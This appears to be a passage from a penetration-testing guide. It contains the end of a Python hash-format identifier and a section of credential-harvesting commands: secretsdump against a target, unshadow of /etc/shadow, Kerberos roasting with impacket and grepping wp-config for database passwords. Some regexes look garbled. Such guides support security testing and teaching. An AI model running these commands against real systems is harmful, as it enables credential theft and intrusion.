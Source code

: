 ```bash
        16: ['MySQL 3.x'],
        41: ['MySQL 4.1+'],
    }
    
    # Check for specific patterns
    if re.match(r'^\$1\, hash_value):
        return 'MD5(Unix)'
    elif re.match(r'^\$2[ayb]\, hash_value):
        return 'bcrypt'
    elif re.match(r'^\$5\, hash_value):
        return 'SHA256(Unix)'
    elif re.match(r'^\$6\, hash_value):
        return 'SHA512(Unix)'
    elif re.match(r'^\$P\, hash_value):
        return 'WordPress'
    elif re.match(r'^\$H\, hash_value):
        return 'phpBB3'
    elif ':' in hash_value and len(hash_value.split(':')) == 2:
        return 'Possible salted hash'
    
    return hash_patterns.get(hash_length, ['Unknown'])

def test_hash_format(hash_value):
    try:
        # Test if it's valid hex
        int(hash_value, 16)
        return True
    except ValueError:
        return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 hash_analyzer.py <hash_value>")
        sys.exit(1)
    
    hash_val = sys.argv[1].strip()
    possible_formats = identify_hash(hash_val)
    print(f"Hash: {hash_val}")
    print(f"Length: {len(hash_val)}")
    print(f"Possible formats: {possible_formats}")
    print(f"Valid hex: {test_hash_format(hash_val)}")
EOF

python3 hash_analyzer.py "5d41402abc4b2a76b9719d911017c592"
```

### 7.2 Hash Extraction and Conversion

```bash
# Windows hash extraction
secretsdump.py domain/user:password@target_ip
secretsdump.py -hashes LM:NT domain/user@target_ip

# Linux shadow file processing
unshadow /etc/passwd /etc/shadow > combined.txt

# Kerberos hash extraction
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile kerberos_hashes.txt
GetUserSPNs.py domain.com/user:password -request -format hashcat -outputfile spn_hashes.txt

# Web application hash extraction
# WordPress wp-config.php
grep -r "DB_PASSWORD" /var/www/html/
```